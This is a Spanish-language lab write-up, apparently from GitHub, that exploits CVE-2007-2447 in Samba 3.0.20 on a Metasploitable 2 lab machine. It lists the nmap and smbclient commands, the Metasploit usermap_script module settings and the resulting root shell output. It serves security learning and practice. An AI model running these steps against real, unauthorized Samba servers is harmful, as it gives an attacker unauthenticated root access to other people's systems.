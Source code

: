 🛠️ Explotación de Samba 3.0.20 - CVE-2007-2447 (Metasploitable 2)

🎯 Objetivo

Explotar una vulnerabilidad en el servicio Samba 3.0.20 corriendo en Metasploitable 2 para obtener ejecución remota de comandos como root.Este fallo permite abusar del parámetro username map script y obtener una shell directamente.

🧠 Detalles técnicos

📌 Vulnerabilidad: CVE-2007-2447

🧹 Servicio vulnerable: Samba 3.0.20-Debian

📍 Puerto: 445/TCP

💽 IP del objetivo: 192.168.1.149

🎯 Nivel de acceso: ROOT ⚡

🔍 Escaneo de servicios

nmap -sV -sC -p 445 -Pn -oN samba_scan.txt 192.168.1.149


📁 Enumeración con smbclient

Antes de lanzar el exploit, revisamos los recursos compartidos de Samba:

smbclient -L //192.168.1.149 -U%


🚀 Explotación con Metasploit

1️⃣ Iniciar Metasploit:

msfconsole

2️⃣ Cargar el módulo de Samba:

use exploit/multi/samba/usermap_script

3️⃣ Configurar el exploit:

set RHOSTS 192.168.1.149
set RPORT 445
set payload cmd/unix/interact
run


💡 Comprobación de acceso

whoami
id
uname -a

Resultado Obtenido:

root
uid=0(root) gid=0(root)
Linux metasploitable 2.6.x ...

✅ Conclusión

Esta vulnerabilidad en Samba permite obtener una shell remota como root sin autenticación, abusando de cómo la aplicación maneja los mapas de nombres de usuario. Es un ejemplo clásico de ejecución remota (RCE) 💥.

📁 Evidencias

Ubicadas en:exploits/samba-usermap-cve2007-2447/evidencias/
